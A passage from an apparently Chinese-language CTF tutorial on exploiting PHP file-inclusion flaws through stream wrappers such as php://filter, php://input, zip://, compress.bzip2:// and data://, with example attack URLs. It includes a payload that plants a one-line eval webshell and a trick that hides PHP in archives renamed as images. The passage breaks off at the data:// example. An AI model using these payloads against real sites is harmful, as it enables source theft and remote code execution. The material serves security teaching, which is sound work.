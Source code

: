 **作用：**

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是 `php://filter` 和 `php://input`

php://filter用于**读取源码**，php://input用于**执行**php代码

**示例：**

```bash
#1. php://filter/read=convert.base64-encode/resource=[文件名]  //读取文件源码
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php

#2.php://input + [POST DATA]执行php代码
http://127.0.0.1/include.php?file=php://input
[POST DATA部分] <?php phpinfo(); ?>

#3.若有写入权限，[POST DATA部分] 写入一句话木马
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

#### zip:// & bzip2:// & zlib://

**作用：**

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件

更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等

**示例：**

```html
1.zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
<!--压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传-->
http://127.0.0.1/include.php?file=zip://C:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt

2.compress.bzip2://file.bz2
<!--压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）-->
http://127.0.0.1/include.php?file=compress.bzip2://C:\phpStudy\PHPTutorial\WWW\phpinfo.bz2

3.compress.zlib://file.gz 
<!--压缩 phpinfo.txt 为 phpinfo.gz-->
http://127.0.0.1/include.php?file=compress.zlib://C:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```

#### data://

**条件：**

allow_url_fopen:on

allow_url_include :on

**作用：**

自`PHP>=5.2.0`起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。

通常可以用来执行PHP代码

**示例：**
